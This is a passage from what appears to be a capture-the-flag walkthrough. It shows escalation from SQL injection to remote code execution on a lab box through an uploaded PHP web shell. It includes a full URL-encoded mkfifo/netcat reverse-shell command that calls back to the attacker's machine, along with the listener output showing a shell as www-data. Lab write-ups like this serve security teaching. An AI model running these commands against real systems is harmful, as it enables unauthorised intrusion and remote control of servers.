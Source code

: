 ![shell_upload](shell_upload.png)

We got an error, but let's see if it was uploaded...


```bash
╰─ curl http://10.10.229.233/shell.php\?cmd\=whoami                                             ─╯
1	 www-data
 	3	4
```

Yes! We now escalated from `SQLI` to `RCE`!

Let's establish a `reverse shell connection`, and start the reconn phase again to get root!

```bash
[Terminal 1]
╰─ curl http://10.10.229.233/shell.php\?cmd\=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%2010.9.0.244%201337%20%3E%2Ftmp%2Ff

------------------------------------------------------------------------------------------

[Terminal 2]
╰─ nc -nlvp 1337                                                                                ─╯
listening on [any] 1337 ...
connect to [10.9.0.244] from (UNKNOWN) [10.10.229.233] 43490
sh: 0: can't access tty; job control turned off
$ id; whoami; pwd; hostname
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data
/var/www/html
hackerdog
```